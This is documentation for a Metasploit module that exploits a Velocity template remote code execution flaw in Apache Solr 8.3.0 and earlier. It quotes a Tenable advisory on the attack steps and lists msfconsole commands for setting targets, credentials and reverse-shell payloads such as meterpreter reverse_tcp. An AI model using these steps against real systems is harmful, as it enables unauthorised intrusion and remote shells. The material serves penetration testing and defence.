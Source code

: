 ## Description
This module exploits a vulnerability in Apache Solr <= 8.3.0 which allows remote code execution via a custom
Velocity template. Currently, this module only supports Solr basic authentication.

**From the Tenable advisory**

Link: https://www.tenable.com/blog/apache-solr-vulnerable-to-remote-code-execution-zero-day-vulnerability

An attacker could target a vulnerable Apache Solr instance by first
identifying a list of Solr core names. Once the core names have been
identified, an attacker can send a specially crafted HTTP POST request
to the Config API to toggle the params resource loader value for the
Velocity Response Writer in the solrconfig.xml file to true. Enabling
this parameter would allow an attacker to use the Velocity template
parameter in a specially crafted Solr request, leading to RCE.

## Vulnerable Applications

Apache Solr <= 8.3.0

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/solr_velocity_rce`
3. `set RHOST <target_ip>`
4. `set RPORT <target_port>`
5. `set USERNAME <username>` (if applicable)
6. `set PASSWORD <password>` (if applicable)
7. Ideally run `check`
8. `set TARGET` based on output of `check`
9. `set PAYLOAD <payload_name>` if you want to use other payloads
10. `set LHOST <your_ip>`
11. `set LPORT <your_port>`
12. Optional: `set VERBOSE true` to get verbose output
13. Optional: `set TARGETURI <path_to_solr>` if target system uses a different path to Apache Solr
14. `exploit` and let the shells rain

## Considerations

Privileges gained are dependent on the user running Solr. Currently,
this module only supports basic auth.

The "Java (in-memory)" target should work on any vulnerable system
regardless of OS. It requires that the victim system be able to make
HTTP requests to the attack platform.

Windows systems have 3 targets:
1. x86/64 Windows PowerShell: Uses `PowerShell` to get a shell. Payload defaults to `windows/meterpreter/reverse_tcp`
2. x86/64 Windows CmdStager: Uses `CmdStager` to get a shell. Payload defaults to `windows/meterpreter/reverse_tcp`
3. Windows Exec: Executes a command and returns the output. Payload defaults to `cmd/windows/generic`

